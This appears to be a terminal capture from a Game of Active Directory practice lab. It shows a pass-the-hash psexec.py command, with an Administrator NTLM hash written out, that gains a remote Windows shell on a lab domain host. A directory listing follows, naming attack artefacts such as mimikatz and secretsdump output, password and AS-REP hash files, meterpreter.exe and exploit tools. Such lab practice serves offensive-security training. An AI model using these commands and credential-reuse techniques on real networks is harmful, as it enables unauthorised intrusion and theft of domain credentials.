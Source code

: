 
──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ psexec.py north.sevenkingdoms.local/Administrator@192.168.20.22 \-hashes aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4  
/home/kali/.venvs/cme/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html. The pkg\_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools\<81.  
  import pkg\_resources  
Impacket v0.12.0 \- Copyright Fortra, LLC and its affiliated companies 

\[\*\] Requesting shares on 192.168.20.22.....  
\[\*\] Found writable share ADMIN$  
\[\*\] Uploading file jOJFBygB.exe  
\[\*\] Opening SVCManager on 192.168.20.22.....  
\[\*\] Creating service qnuB on 192.168.20.22.....  
\[\*\] Starting service qnuB.....  
\[\!\] Press help for extra shell commands  
Microsoft Windows \[Version 10.0.17763.737\]  
(c) 2018 Microsoft Corporation. All rights reserved.  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

                                                Golden Ticket etc…

┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$   
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ rm north.sevenkingdoms.local.ccache  
rm: cannot remove 'north.sevenkingdoms.local.ccache': No such file or directory  
                                                                                                                                                                  
┌──(cme)─(kali㉿kali)-\[\~/goAD-lab\]  
└─$ ls  
20250827171105\_computers.json   20250827173112\_Certipy.json     20250828161826\_domains.json  meterpreter.exe  
20250827171105\_containers.json  20250827173112\_Certipy.txt      20250828161826\_gpos.json     mimikatz\_192.168.20.23.txt  
20250827171105\_domains.json     20250827173112\_Certipy.zip      20250828161826\_groups.json   naabu\_ad\_ports.txt  
20250827171105\_gpos.json        20250827210949\_computers.json   20250828161826\_ous.json      NetExec  
20250827171105\_groups.json      20250827210949\_containers.json  20250828161826\_users.json    noPac  
20250827171105\_ous.json         20250827210949\_domains.json     20250828161834\_Certipy.json  nuclei\_ad\_scan.txt  
20250827171105\_users.json       20250827210949\_gpos.json        20250828161834\_Certipy.txt   nuclei\_ai\_ad.txt  
20250827171113\_Certipy.json     20250827210949\_groups.json      20250828161834\_Certipy.zip   nuclei\_ai\_mssql.txt  
20250827171113\_Certipy.txt      20250827210949\_ous.json         adPEAS                       nuclei\_core\_high.txt  
20250827171113\_Certipy.zip      20250827210949\_users.json       arya.txt                     nuclei\_iis\_scan.txt  
20250827171724\_computers.json   20250827211000\_Certipy.json     asrep\_hashes.txt             passwords.txt  
20250827171724\_containers.json  20250827211000\_Certipy.txt      Certipy                      pwn.ps1  
20250827171724\_domains.json     20250827211000\_Certipy.zip      certipy-env                  script.ps1  
20250827171724\_gpos.json        20250828092950\_computers.json   cme\_results.txt              secret.ps1  
20250827171724\_groups.json      20250828092950\_containers.json  connys\_textdatei.txt         secretsdump\_results.txt  
20250827171724\_ous.json         20250828092950\_domains.json     decrypt.ps1                  shares\_results.txt  